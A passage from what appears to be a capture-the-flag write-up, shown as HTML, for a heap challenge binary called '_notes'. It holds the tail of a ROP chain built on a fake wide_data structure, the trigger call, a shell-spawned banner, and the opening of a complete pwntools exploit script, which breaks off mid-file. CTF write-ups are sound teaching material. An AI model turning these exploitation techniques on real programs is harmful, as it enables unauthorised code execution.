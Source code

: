 fake_stack += b"\x00"*48
fake_stack += p64(stack_pivot)
fake_stack += p64(pop_rsi)
fake_stack += p64(0)
fake_stack += p64(pop_rdx_r12)
fake_stack += p64(0)
fake_stack += p64(0)
fake_stack += p64(onegadget)
fake_stack += b"\x00"*8
fake_stack += p64(fake_widedata_entry)</code></pre>
                Finally, to pop the shell, we just needed to trigger:<br>
                <pre><code class="language-python">write(index=15)  # index > 10 triggers fwrite(stderr)</code></pre>
                And…
            </p>
        </div>
        <div class="section-content">
            <h4>BOOM! Shell popped.</h4>
            <p>
                <b>Here is my nice little banner.</b>
<pre><code class="language-python">[*] System pwned
[*] Shell spawned
[*] Get the flag!

$whoami
REDACTED
$
</code></pre>
</p>
</div>
<div class="section-content">
    <div class="h4-wrapper">
        <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python">#!/bin/python3

from pwn import *
import warnings

io = process("./_notes")
warnings.filterwarnings("ignore", category=BytesWarning)
context.log_level = 'error'

def banner():
    print("\n[*] System pwned\n[*] Shell spawned\n[*] Get the flag!")

def create(size,data,proc=io):
    proc.sendline(b"1")
    proc.sendline(str(size))
    proc.sendline(data)


def delete(index,proc=io):
    proc.sendline(b"2")
    proc.sendline(str(index))
